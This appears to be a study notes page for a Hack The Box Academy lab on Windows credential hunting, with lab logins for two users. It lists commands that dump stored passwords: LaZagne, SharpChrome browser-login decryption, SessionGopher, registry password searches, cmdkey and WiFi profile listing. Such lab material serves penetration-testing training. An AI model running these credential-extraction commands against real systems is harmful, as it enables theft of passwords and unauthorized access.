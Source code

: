 ### Lab Environment Overview
- **Various RDP credentials**: `jordan:HTB_@cademy_j0rdan!`, `htb-student:HTB_@cademy_stdnt!`
- **Multiple objectives**: SQL sa password, RDP credentials, vCenter password, FTP password

### Lab 1: SQL sa Password (as jordan)
```cmd
# Objective: Retrieve sa password for SQL01.inlanefreight.local
# Methods: LaZagne, SessionGopher, registry search, browser credentials
# Check saved credentials and password managers
```

### Lab 2: RDP User Discovery (as htb-student)
```cmd
# Objective: Find user with stored RDP credentials for WEB01
# Method: cmdkey /list, SessionGopher, registry enumeration
cmdkey /list
# Look for TERMSRV/WEB01 entries
```

### Lab 3: vCenter Password (as htb-student)
```cmd
# Objective: Find password for https://vc01.inlanefreight.local/ui/login
# Method: SharpChrome browser credential extraction
.\SharpChrome.exe logins /unprotect
# Look for vc01.inlanefreight.local entries
```

### Lab 4: FTP Password (as htb-student)
```cmd
# Objective: Find password for ftp.ilfreight.local
# Methods: LaZagne all modules, SessionGopher, browser extraction
.\lazagne.exe all
# Check WinSCP, FileZilla, browser saved passwords
```

## 🔄 Advanced Techniques

### Comprehensive Enumeration Strategy
```powershell
# 1. Automated extraction
.\lazagne.exe all

# 2. Session-specific tools
Invoke-SessionGopher -Target localhost

# 3. Browser credentials
.\SharpChrome.exe logins /unprotect

# 4. Registry searches
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# 5. Saved credentials
cmdkey /list

# 6. WiFi profiles
netsh wlan show profile
```

